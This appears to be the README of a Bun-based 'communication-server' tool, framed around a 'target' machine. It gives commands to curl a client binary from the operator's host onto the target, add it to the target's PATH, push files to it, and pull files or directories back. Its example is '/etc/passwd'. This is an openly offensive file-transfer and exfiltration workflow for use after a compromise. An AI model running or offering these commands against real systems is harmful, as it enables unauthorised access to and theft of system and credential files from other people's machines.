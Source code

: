 # communication-server

### Usage

Clone this repo

Set .env

- PORT : ex: 4444
- ADDR : your hostname ex: https://my-host.com:4444
- ACCESS_KEY : a security key for securing your server change it!

expose your port a way or another

make sure you installed Bun. https://bun.sh

Run

```Bash
#!/usr/bin/env bash
bun i
bun build:client
bun serve
```

from target upload the client from https://my-host:4444/client

```Bash
#!/usr/bin/env bash
curl --output client https://my-host:4444/client
```

then add it to the targets's path

```bash
#!/usr/bin/env bash
 export PATH="some/path:$PATH"
```

## Show help

```bash
#!/usr/bin/env bash
client --help
```

## Send a file to the target

put the file in the **download** directory on the server directory ex: download/the-file.txt

```bash
#!/usr/bin/env bash
client --download the-file.txt
```

it will be outputed in the current directory with the same name

## Get a file or a directory from the target to the server

```bash
#!/usr/bin/env bash
client --upload /etc/passwd
# OR
client --upload /some/directory
```

it will be outputed in the upload/{hour}:{minute}-{random-2-string} directory of the server
